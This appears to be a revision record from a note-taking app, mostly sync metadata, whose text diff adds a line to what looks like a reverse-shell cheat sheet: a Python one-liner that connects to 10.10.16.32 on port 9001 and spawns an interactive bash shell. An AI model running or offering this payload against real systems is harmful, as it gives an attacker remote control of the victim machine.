 id: c7947b47c5da481fa63f2782e4b15361
parent_id: fca5a6e94f4747468efca23cd4c6e274
item_type: 1
item_id: 5c960ae0679f45c084d870a7e8bd7850
item_updated_time: 1657608610669
title_diff: "[]"
body_diff: "[{\"diffs\":[[0,\"&1\\\"\\\n\"],[-1,\"> \\\n\"],[0,\"> ``\"]],\"start1\":105,\"start2\":105,\"length1\":11,\"length2\":8},{\"diffs\":[[0,\"\\\"-i\\\"\\\\])'\"],[1,\"\\\n> \\\n> python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF\\\\_INET,socket.SOCK\\\\_STREAM);s.connect((\\\"10.10.16.32\\\",9001));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);subprocess.call(\\\\[\\\"/bin/bash\\\",\\\"-i\\\"\\\\])'\"],[0,\"\\\n\\\n## PHP\"]],\"start1\":613,\"start2\":613,\"length1\":16,\"length2\":251}]"
metadata_diff: {"new":{"order":1652807785566},"deleted":[]}
encryption_cipher_text: 
encryption_applied: 0
updated_time: 2022-07-12T06:53:20.609Z
created_time: 2022-07-12T06:53:20.609Z
type_: 13